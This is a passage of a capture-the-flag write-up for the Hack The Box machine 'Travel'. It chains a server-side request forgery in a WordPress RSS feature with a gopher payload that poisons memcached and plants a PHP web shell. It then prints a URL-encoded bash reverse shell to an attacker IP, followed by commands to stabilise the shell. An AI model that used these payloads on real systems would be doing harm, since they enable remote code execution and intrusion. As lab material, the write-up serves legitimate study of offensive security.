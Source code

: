 ![Pasted image 20250228114847.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250228114847.png?raw=true)
- Now I fed the serialized data generated by the php script to `gopherus`
![Pasted image 20250228114951.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250228114951.png?raw=true)
- This was the output I got from `gopherus` tool
```
gopher://127.0.0.1:11211/_%0d%0aset%20SpyD3r%204%200%20104%0d%0aO:14:%22TemplateHelper%22:2:%7Bs:4:%22file%22%3Bs:9:%22shell.php%22%3Bs:4:%22data%22%3Bs:32:%22%3C%3Fphp%20system%28%24_GET%5Bemperor%5D%29%3B%20%3F%3E%22%3B%7D%0d%0a
```
- Now I replaced bunch of things in the payload given by `Gopherus`
	- First I replaced `localhost` to it's decimal representation which is `2130706433`
	- Second I replaced `SpyD3r` to the hash we generated earlier also by including the prefix which is `xct_4e5612ba079c530a6b1f148c0b352241`
- The final payload would be 
```
http://blog.travel.htb/awesome-rss/\?custom_feed_url=gopher://2130706433:11211/_%0d%0aset%20xct_4e5612ba079c530a6b1f148c0b352241%204%200%20104%0d%0aO:14:%22TemplateHelper%22:2:%7Bs:4:%22file%22%3Bs:9:%22shell.php%22%3Bs:4:%22data%22%3Bs:32:%22%3C%3Fphp%20system%28%24_GET%5Bemperor%5D%29%3B%20%3F%3E%22%3B%7D%0d%0a
```
-  Sent it using curl
![Pasted image 20250228115417.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250228115417.png?raw=true)
- On visiting `http://blog.travel.htb/wp-content/themes/twentytwenty/logs/shell.php?0=id` I could access `shell.php`
- This worked very nicely
![Pasted image 20250228115554.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250228115554.png?raw=true)
- To get a reverse shell lets change the `id` command with url encoded bash payload which would be
```bash
bash%20%2Dc%20%27exec%20bash%20%2Di%20%26%3E%2Fdev%2Ftcp%2F10%2E10%2E14%2E16%2F6001%20%3C%261%27
```
- The final **URL for reverse shell** would be
```
http://blog.travel.htb/wp-content/themes/twentytwenty/logs/shell.php?emperor=bash%20%2Dc%20%27exec%20bash%20%2Di%20%26%3E%2Fdev%2Ftcp%2F10%2E10%2E14%2E16%2F6001%20%3C%261%27
```
- I got the reverse shell connection on my listener
- I performed some **shell up gradation** 
```bash
/usr/bin/script -qc /bin/bash /dev/null
```
- Then for `clear` command
```bash
export TERM=xterm
```
- Press **CTRL+Z**
- Then after
```bash
stty raw -echo; fg
```
- Atlast
```bash
stty rows 38 columns 116
```
![Pasted image 20250228120138.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250228120138.png?raw=true)
